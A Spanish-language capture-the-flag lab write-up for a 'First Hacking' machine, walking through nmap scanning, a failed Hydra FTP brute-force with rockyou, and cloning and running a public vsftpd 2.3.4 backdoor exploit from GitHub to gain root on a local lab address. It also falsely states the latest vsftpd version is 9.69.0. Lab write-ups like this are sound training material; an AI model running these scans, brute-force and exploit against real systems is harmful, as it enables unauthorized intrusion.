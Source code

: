 - Tags: #FirstHacking
---
- [Maquina First Hacking](https://mega.nz/file/oCd2VC5D#QfiRoFmZrZ-FjTuyRX9bLw7638fjluwp6jNth7JjXTw) ==> Enlace de descarga al laboratorio. Lo descomprimimos y procedemos a desplegar el laboratorio.
```bash
7z x firsthacking.zip
sudo bash auto_deploy.sh firsthacking.tar  
```
---
- #### Fase Reconocimiento:
- **( 172.17.0.2 )** ==> Direccion ip del **target**.
```bash
 ping -c 1 172.17.0.2 # Realizamos una traza ICMP para ver si tenemos comunicacion con el target
 
 wichSystem.py 172.17.0.2 # Gracias al ttl podemor determinar que estamos ante una maquina linux
172.17.0.2 (ttl -> 64): Linux
```
---

- #### Fase Reconocimiento Puertos:
```bash
nmap -p- -sS --open --min-rate 5000 -vvv -n -Pn 172.17.0.2 -oG allPorts  # Realizamos descubrimiento de puertos
extractPorts allPorts # Usamos nuestra utilidad para parsear la informacion mas importante.
nmap -sC -sV -p21 172.17.0.2 -oN targeted  # Realizamos un escaneo exhaustivo para determinar el servicio y la version que corren detras de este servicio.
```
----
- **( 21/tcp open  ftp     vsftpd 2.3.4 )** ==> Tenemos un servicio **ftp** expuesto donde la version mas reciente es la: **( 9.69.0 )**
```bash
ftp 172.17.0.2 --> Probramos con el usuario ( anonymous ) pero esta deshabilitado.

hydra -L /usr/share/SecLists/Usernames/top-usernames-shortlist.txt -P /usr/share/wordlists/rockyou.txt -t 5 ftp://172.17.0.2  # Probamos con esta herramienta no obtuvimos resultados.
```
---
- Una vez ya conozcamos la versión del ftp podemos buscar por ella en Internet en búsquedad de algún exploit de esta forma `ftp vsftpd 2.3.4 exploit github`. 
- Nos encontramos con este repositorio de [github](https://github.com/Hellsender01/vsftpd_2.3.4_Exploit). Si seguimos las instrucciones del repositorio instalando los requirimientos con `sudo python3 -m pip install pwntools`.  
- Nos descargamos el repositorio con `git clone https://github.com/Hellsender01/vsftpd_2.3.4_Exploit.git`. Una vez esté descargado probamos ha hacer lo que nos dice que sería `python3 exploit.py 172.17.0.2`.
- **Nota** ==> Ahora estamos como **root**